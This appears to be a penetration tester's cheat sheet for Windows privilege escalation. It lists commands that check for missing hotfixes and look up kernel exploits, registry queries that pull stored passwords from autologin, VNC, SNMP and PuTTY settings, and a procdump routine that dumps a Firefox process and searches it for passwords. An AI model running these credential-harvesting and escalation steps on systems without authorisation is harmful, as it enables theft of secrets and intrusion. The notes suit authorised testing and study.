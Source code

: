 ### Kernel exploits


```
# Look for hotfixes
systeminfo # Copy to txt file and run wes.py

sudo python wes.py sysinfo.txt -i "Elevation of Privilege"

wmic qfe list # Install date of hotfixes

wmic qfe get Caption,Description,HotFixID,InstalledOn

# Search for exploits
site:exploit-db.com windows XX XX
```

### Cleartext passwords

```
# Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

# SNMP Parameters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

### Reconfigure service parameters

- Unquoted service paths

- Weak service permissions

https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/

### Dump process for passwords

```powershell
# Looking for Firefox
Get-Process
./procdump64.exe -ma $PID-FF
Select-String -Path .\*.dmp -Pattern 'password' > 1.txt
type 1.txt | findstr /s /i "admin"
```
